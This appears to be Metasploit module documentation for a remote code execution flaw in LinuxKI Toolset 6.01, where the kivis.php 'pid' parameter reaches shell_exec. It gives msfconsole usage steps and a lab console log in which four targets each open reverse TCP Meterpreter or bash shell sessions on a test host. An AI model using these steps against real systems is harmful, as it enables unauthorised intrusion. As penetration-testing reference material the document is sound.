 ## Vulnerable Application
LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```show TARGETS```
5. Do: ```set TARGET #```
6. Do: ```set RHOSTS```
7. Do: ```set LHOST```
8. Do: ```run```
9. You should get a shell.

## Options
### WritableDir

A writable directory file system path. (default: `/tmp`)

### ForceExploit

Override check result.

## Scenarios
### LinuxKI Toolset v6.01 on CentOS 7.8
```
msf > use exploit/linux/http/linuxki_rce
msf exploit(linux/http/linuxki_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)
   1   Automatic (PHP Dropper)
   2   Automatic (Unix In-Memory)
   3   Automatic (Linux Dropper)


msf exploit(linux/http/linuxki_rce) > set rhosts 192.168.1.43
rhosts => 192.168.1.43
msf exploit(linux/http/linuxki_rce) > set rport 32769
rport => 32769
msf exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP In-Memory) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.43:4444 -> 192.168.1.43:53126) at 2020-06-07 20:27:10 +0300

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(linux/http/linuxki_rce) > set target 1
target => 1
msf exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP Dropper) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.43:4444 -> 192.168.1.43:53133) at 2020-06-07 20:27:52 +0300
[!] This exploit may require manual cleanup of '/tmp/kB4gJoH4xozwDdUva6tjqt.php' on the target

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(linux/http/linuxki_rce) > set target 2
target => 2
msf exploit(linux/http/linuxki_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Unix In-Memory) target
[*] Sending payload...
[*] Command shell session 3 opened (192.168.1.43:4444 -> 192.168.1.43:53141) at 2020-06-07 20:29:56 +0300

uname -a
Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.1.43 - Command shell session 3 closed.
msf exploit(linux/http/linuxki_rce) > set target 3
target => 3
msf exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Linux Dropper) target
[*] Sending payload...
[*] Sending stage (980808 bytes) to 192.168.1.43
[*] Meterpreter session 4 opened (192.168.1.43:4444 -> 192.168.1.43:53146) at 2020-06-07 20:31:23 +0300
[!] This exploit may require manual cleanup of '/tmp/ag6G4ssIKEpH3lDyL.php' on the target

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : CentOS 7.8.2003 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.2 - Meterpreter session 4 closed.  Reason: User exit
msf exploit(linux/http/linuxki_rce) >
```
